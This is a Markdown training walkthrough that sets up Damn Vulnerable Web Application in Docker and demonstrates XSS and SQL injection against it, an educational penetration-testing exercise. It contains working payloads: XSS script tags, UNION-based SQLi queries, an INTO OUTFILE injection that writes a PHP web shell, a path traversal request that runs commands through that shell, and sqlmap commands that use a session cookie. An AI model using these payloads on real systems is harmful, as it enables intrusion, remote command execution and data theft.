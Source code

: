 # Setup

This was done on a Ubuntu 16.04 server.

## Install Docker

```
$ sudo apt-get update && apt-get install docker.io
$ sudo systemctl start docker
```

## Setup Damn Vulnerable Web Application (DVWA)

Pull the image from DockerHub:
```
$ sudo docker pull citizenstig/dvwa
```

Fire up the container:
```
$ sudo docker run -d -p 80:80 citizenstig/dvwa:latest
```

1. DVWA is now available at http://[host-ip]
2. Follow the instructions to setup the MySQL database
3. Refresh and login, default username is `admin` and the default password is `password`

# Recon


# Finding vulnerabilities

## Cross Site Scripting (XSS)

1. Go to http://[host-ip]/security.php and set security level to low.
2. Go to http://[host-ip]/vulnerabilities/xss_r/. Explore the functionality.
3. Reflect on the source code by clicking "View Source" in the bottom right.
4. Play around with some input, does the application reflect `<`, `'`, `"`?
5. Can you put actual HTML tags in there, like `<pre>`, `<a>`?
6. Attempt to use the classic `<script>alert(1)</script>` to check for XSS.
7. Show the same with the persistant/stored XSS at http://[host-ip]/vulnerabilities/xss_s/

## SQL Injection (SQLi)

1. Go to http://[host-ip]/security.php and set security level to low.
2. Go to http://[host-ip]/vulnerabilities/sqli/ and explore the functionality
3. View the source by clicking "View Source" in the bottom right.
4. Input a single quote `'` into the input field.
	Makes query: `"SELECT first_name, last_name FROM users WHERE user_id = '''"; 
5. Input `1' OR 1=1;#` into the input field. 
	Makes query: `"SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1;#'"; 
6. Demonstrate that arbitrary information can be received:
	`1' union select all 1,@@version;#`
	`1' union select all 1,table_name FROM information_schema.tables;#`
7. Show that files can be written too:
	`1' union select all 1,"<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '/tmp/backdoor.php'`
8. Take advantage of it with path traversal vulnerability:
	http://[host-ip]/vulnerabilities/fi/?page=../../../../../tmp/backdoor.php&cmd=id
9. Run `sqlmap -u "http://[host-ip]/vulnerabilities/sqli/?id=123&Submit=Submit#"`.
10. Fetch cookie values from CookieManager+
11. Run `sqlmap -u "http://[host-ip]/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=[SESSION FROM COOKIES]"`
12. Run `sqlmap -u "http://[host-ip]/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=[SESSION FROM COOKIES]" --tables`

# Exploitation

## BeEf Command and Control using XSS

## Reverse shell using SQLi

# Resources

## Vulnerable applicaions
1. Damn Vulnerable Web Application: http://www.dvwa.co.uk/
3. WebGoat: https://github.com/WebGoat/WebGoat
2. Mutillidae 2: https://www.owasp.org/index.php/OWASP_Mutillidae_2_Project

